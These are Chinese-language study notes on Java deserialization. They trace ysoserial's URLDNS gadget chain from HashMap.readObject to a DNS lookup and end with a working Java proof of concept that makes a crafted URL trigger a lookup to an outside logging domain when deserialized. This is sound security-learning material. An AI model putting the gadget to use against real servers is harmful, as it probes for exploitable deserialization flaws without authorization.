 ```yaml
---
title: Java反序列化之URLDNS
date: 2023/5/1 15:00:25
categories:
- Java
tags:
- 反序列化
---
```


# 	IDEA

[IDEA中的debug断点调试技巧，学会真的香！ - 腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1887019)

[(72条消息) IntelliJ IDEA创建Servlet最新方法 Idea版本2020.2.2以及IntelliJ IDEA创建Servlet 404问题（超详细）_idea创建servlet项目_Granger_g的博客-CSDN博客](https://blog.csdn.net/gaoqingliang521/article/details/108677301)

##  ysoserial 调试

下载源码，等待maven导入依赖，再配置如下即可（java版本为java8）

![image-20230502220543589](../images/image-20230502220543589.png)



# 反序列化

## 基础

​	在java中，如果要对一个对象进行序列化或者反序列化，那么这个对象的类必须要实现`java.io.Serializable`接口。



### 函数

序列化`writeObject`

```java
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  

oos.writeObject(obj);
```

反序列化`readObject` 

```java
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  

Object obj = ois.readObject();
```



### 创建一个对象时各代码块的执行顺序

![image-20230503114055054](../images/image-20230503114055054.png)

`static {}`  →  `{}`  →  构造函数



### serialVersionUID

反序列时, 如果字节流中的serialVersionUID与目标服务器对应类中的serialVersionUID不同时就会出现异常，造成反序列化失败。

![图片](../images/1615523079000-30cnxtq.png-w331s)

SUID不同是jar包版本不同所造成，不同版本jar包可能存在不同的计算方式导致算出的SUID不同，这种情况下只需要基于目标一样的jar包版本去生成payload即可解决异常，进而提升反序列化漏洞利用成功率。



### 反序列化数据标志

`AC ED 00 05`

![image-20230913163905803](../images/image-20230913163905803.png)



## URLDNS链

分析的时候发现需要注释掉`ysoserial`重写的![image-20230502230402644](../images/image-20230502230402644.png)

> ysoserial为了防⽌在⽣成Payload的时候也执⾏了URL请求和DNS查询，所以重写了⼀ 个 SilentURLStreamHandler 类。



### 分析过程

如何寻找可能具有反序列化漏洞的类？

要有`readObject`方法，所以直奔`HashMap`的`readObject`方法

![image-20230502233642388](../images/image-20230502233642388.png)

```java
putVal(hash(key), key, value, false, false);
```

在`ysoserial`中打下断点

![image-20230502233910801](../images/image-20230502233910801.png)

跟进`put`

![image-20230502233952861](../images/image-20230502233952861.png)

跟进`hash`

![image-20230502234020014](../images/image-20230502234020014.png)

跟进`hashCode`

![image-20230502234105324](../images/image-20230502234105324.png)

跟进`handler.hashCode`

![image-20230502234135313](../images/image-20230502234135313.png)

跟进`getHostAddress`

![image-20230502235424673](../images/image-20230502235424673.png)

这里多了一步，可能是版本问题吧？

![image-20230502234312446](../images/image-20230502234312446.png)

这⾥ InetAddress.getByName(host) 的作用是根据主机名，获取其IP地址，在网络上其实就是⼀次 DNS查询。



`Gadget Chain`

![image-20230502234635733](../images/image-20230502234635733.png)

```java
HashMap.readObject()
HashMap.hash()
URL.hashCode()：Field hashCode=-1
URLStreamHandler->hashCode()
URLStreamHandler->getHostAddress()
URL->getHostAddress()    
InetAddress->getByName()
```

需要实例化三个类

```java
HashMap
URLStreamHandler
```

无参构造，直接`new`

```
URL
```

![image-20230503000931008](../images/image-20230503000931008.png)

payload

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.*;
import java.util.HashMap;

public class URLDNSTestDemo implements Serializable {

    public static void main(String[] args) throws MalformedURLException, NoSuchFieldException, IllegalAccessException {

        HashMap hm = new HashMap();

        URLStreamHandler handler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }
        };
        String url = "http://123.1020fd40.ipv6.1433.eu.org";

        URL u = new URL(null, url, handler);

        // 通过反射修改私有属性hashCode为-1
        Class clazz = u.getClass();
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u, -1);

        hm.put(u, url);
    }

}
```

![image-20230503001328190](../images/image-20230503001328190.png)

